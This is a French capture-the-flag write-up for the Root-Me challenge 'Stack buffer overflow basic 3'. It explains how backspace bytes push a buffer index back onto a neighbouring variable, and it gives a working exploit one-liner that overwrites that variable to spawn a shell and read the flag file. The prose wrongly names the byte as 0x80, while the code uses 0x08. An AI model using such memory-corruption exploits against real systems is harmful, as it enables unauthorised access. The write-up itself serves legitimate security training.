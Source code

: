 ```yaml
---
title: "ELF x86 - Stack buffer overflow basic 3"
description: "Write up Medium"
pubDate: "May 12 2024"
image: /image/image4.jpg
categories:
  - rootme
tags:
  - app-system
  - buffer-overflow
  -stack
---
```


Le but de ce challenge est que check soit égale à 0xbffffabc afin d'ouvrir un shell.

```c
if(check == 0xbffffabc)
        shell();
```

Je ne risque pas de provoquer un débordement de buffer, car dès que count atteint 64, nous entrons dans une boucle infinie avec des messages "Oh no... Sorry !".
Cependant, il est remarquable qu'il est possible de décrémenter count en fournissant au programme un octet 0x80.

```c
 case 0x08:
  count--;
  printf("\b");
  break;
```

De plus, dans le case default, la valeur de i est affectée à buffer[count]:

```c
 default:
  buffer[count] = i;
  count++;
  break;
```

Il est facile de voir la vulnérabilité : si nous parvenons à décrémenter count suffisamment pour que buffer[count] pointe sur check, nous pourrions écrire 0xbffffabc et ainsi prendre le contrôle du shell.
Comme la variable check est juste en dessous de buffer, en ajoutant 4 fois 0x80 (4 fois car sizeof(int) = 4), nous pourrions pointer sur check.

```c
char buffer[64];
  int check;
  int i = 0;
  int count = 0;
```
Je peux donc utiliser la commande ci-dessous pour décrémenter count 4 fois et écrire la séquence d'octets nécessaire pour passer la condition de check, en n'oubliant pas de terminer par ;cat pour maintenir le shell ouvert.

```python
  $ (python -c 'print"\x08"*4+"\xbc\xfa\xff\xbf"';cat)|./ch16
```
Ainsi, je peux afficher le contenu de .passwd et récupérer le flag.
